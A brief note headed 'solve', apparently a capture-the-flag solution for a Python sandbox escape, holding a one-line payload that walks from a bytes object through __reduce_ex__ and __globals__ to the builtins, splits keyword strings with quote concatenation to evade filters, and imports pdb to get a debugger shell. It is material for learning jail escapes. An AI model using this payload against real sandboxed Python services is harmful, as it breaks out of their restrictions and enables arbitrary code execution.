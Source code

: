 # solve

abuse quotes stuff a lot and also numbers hex something

`br"".__reduce_ex__(0x5)[0x0].__globals__["__bui""ltins__"]["__imp""ort__"]("pdb").run("")`

